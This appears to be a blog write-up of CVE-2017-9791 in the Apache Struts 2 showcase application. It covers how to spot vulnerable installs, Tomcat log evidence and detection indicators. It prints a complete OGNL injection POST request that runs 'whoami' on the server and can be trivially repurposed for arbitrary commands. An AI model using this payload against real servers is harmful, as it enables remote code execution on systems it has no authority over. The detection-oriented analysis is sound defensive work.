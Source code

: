 ```yaml
---
title: "CVE-2017-9791 exploit details"
layout: post
---
```


Was looking back through some of my notes and came across this write up I did for a Struts exploit. Nothing crazy but what I liked about the notes I captured was around detection on what defenders could have alerted on when this exploit came out. Enjoy!


Confirmed publicly released exploits of CVE-2017-9791 do allow remote code execution with privileges of the web server.  In recent vulnerabilities involving Struts and others it appears that most business functions follow the best practice of running the web server without admin or root privileges but of course this needs to be confirmed on a case by case basis.

The vulnerable functionality within Struts 2.3.X and below is a sample Struts application that comes bundled by default named struts2-showcase, this application is not installed by default so one would have to intentionally deploy this application.  Below is a screenshot showing it deployed.

![](https://lh5.googleusercontent.com/Cna7087uCh5hl3NVMnHjc5lqM8ebpQvU8Al1V8fei6YU2xxhzWOwWdi3riS8SvBe2GpNuxyYd0CHrjyDc8hF5VLtFDy-1oKLcM_YGDHQ9WTzeRZdglj2ji55yfAhBXr-eHaRntmM)

Below is a screenshot of the vulnerable functionality within Showcase.

![](https://lh4.googleusercontent.com/_8yGvO5MwjNvFFpDXuWXANsrIXKzbp8dfnZR0VbDbCQqUAkuatZ2Un38nVivkBBuyGozvs4_QvjoZBF7wG-nZ9mwI6kmeMyYNEovYx97xBoA89gEutZmb8ZNY7M6943hhvVcyFQL)

The URL to access this functionality is [http://hostname.com/struts2-showcase/integration/editGangster.action](http://hostname.com/struts2-showcase/integration/editGangster.action), once there one can fill out the forms and submit the request to test the working example.  Once that request is submitted it goes to the server as a post request.  

POST /struts2-showcase/integration/saveGangster.action  

Knowing if these URLs exist is one way of determining if the underlying Struts system is vulnerable as Struts 2.5.X does not contain this functionality.  Struts 2.5.X will contain the struts2-showcase application but not the Struts1 plugin. In comparing the downloads of different Struts version only the ones with the “struts2-struts1-plugin” Jar file were vulnerable.

![](https://lh3.googleusercontent.com/Kt1dnmIX8iUrZh5QqtzhQwldfHbFQcFBkAPSzuHH9Y_PewFTLJR8o1KQiNOtF0Pc9LQMUSHU0xBHwpjbciCUoIKlebdh7agT9Rqu1FbGEOBwhHu48YhgZ-EFCo5yhh5SX5CtKCnS)

So if the vulnerable application isn’t deployed but you had access to the file system of the web server then checking for the struts2-struts1-plugin Jar file is another way of confirming if the underlying system could be exposed in the future.

We used publicly known techniques to confirm exploitation was possible, similar to a posting here [https://github.com/nixawk/labs/issues/8](https://github.com/nixawk/labs/issues/8).  Sending a specialized URL request with a proof of concept to execute the command whoami can be seen below.

![](https://lh4.googleusercontent.com/mrHQtGcs7kY7vgWlKrXZgn0Rrbm1OI4zzejyjStQwmFqhD5dhjenv-gJkVWzgE8tzpMRIQObhsxBXSfsAqSC0fhsU9_X4dZ5KVofI-v7vmz5LWpXoHaA12TaDA2EqudzN9ubY3Z3)

The request has to be URL encoded but the complete translation is below.  

POST /struts2-showcase/integration/saveGangster.action HTTP/1.0

Content-Length: 1187

Host: 192.168.142.216:8080

Content-Type: application/x-www-form-urlencoded

Connection: close

User-Agent: Python-urllib/2.7  

name=%{(#\_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT\_MEMBER\_ACCESS).(#\_memberAccess?(#\_memberAccess=#dm):((#container=#context\['com.opensymphony.xwork2.ActionContext.container'\]).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}&age=1337&\_\_cheackbox\_bustedBefore=true&description=blah

Here is the exploit being ran from the command line via a python script.

![](https://lh6.googleusercontent.com/BxY99kAz6J2xN5sGQLFsEe9rn4SJcFHGAfYV_cDrMHAQ7ru-vMuwrpKioKNjuf_miRS9EhgkA4_0KHLsATVeMJdjDi_gYG8EkcmGiw6ouG3tdMz77tPWLEi5rElzbxJhNzx0fCQq)

If logging is enabled within Tomcat it will have the individual URL requests, in Windows these logs are located in c:\\Program Files (x86)\\Apache Software Foundation\\Tomcat\\logs with the name of the log being localhost\_access\_log.date.  A snippet of these logs are below with the last request being the saveGangster.action request.  

192.168.142.216 - - \[08/Jul/2017:20:03:51 -0400\] "GET / HTTP/1.1" 200 11418

192.168.142.216 - admin \[08/Jul/2017:20:03:53 -0400\] "GET /manager/html HTTP/1.1" 200 12398

192.168.142.216 - admin \[08/Jul/2017:20:04:40 -0400\] "POST /manager/html/upload?org.apache.catalina.filters.CSRF\_NONCE=817A45627CEDACBC2F98D9BF3B598839 HTTP/1.1" 200 14179

192.168.142.128 - admin \[08/Jul/2017:20:04:55 -0400\] "GET /manager/html HTTP/1.1" 200 14179

192.168.142.128 - - \[08/Jul/2017:20:04:55 -0400\] "GET /manager/images/tomcat.gif HTTP/1.1" 304 -

192.168.142.128 - - \[08/Jul/2017:20:04:55 -0400\] "GET /manager/images/asf-logo.svg HTTP/1.1" 304 -

192.168.142.128 - - \[08/Jul/2017:20:05:00 -0400\] "GET /struts2-showcase/index.action HTTP/1.1" 200 10870

192.168.142.128 - - \[08/Jul/2017:20:05:00 -0400\] "GET /struts2-showcase/struts/utils.js HTTP/1.1" 200 4730

192.168.142.128 - - \[08/Jul/2017:20:05:07 -0400\] "GET /struts2-showcase/integration/editGangster.action HTTP/1.1" 200 12001

192.168.142.128 - - \[08/Jul/2017:20:05:07 -0400\] "GET /struts2-showcase/struts/xhtml/styles.css HTTP/1.1" 200 1093

192.168.142.128 - - \[08/Jul/2017:20:05:07 -0400\] "GET /struts2-showcase/struts/utils.js HTTP/1.1" 200 4730

192.168.142.128 - - \[08/Jul/2017:20:10:16 -0400\] "POST /struts2-showcase/integration/saveGangster.action HTTP/1.1" 200 11408  

This remote code execution exploit has been proven to work on Windows and \*nix systems.  For detection purposes simply looking for the gangster.action in logs would be a great indicator of malicious activity but not the end all be all.  There are different styles of payloads that can be used to take advantage of this vulnerability so a combination of the gangster.action plus ONGL functionality plus OS style commands will be a better indicator of malicious activity.
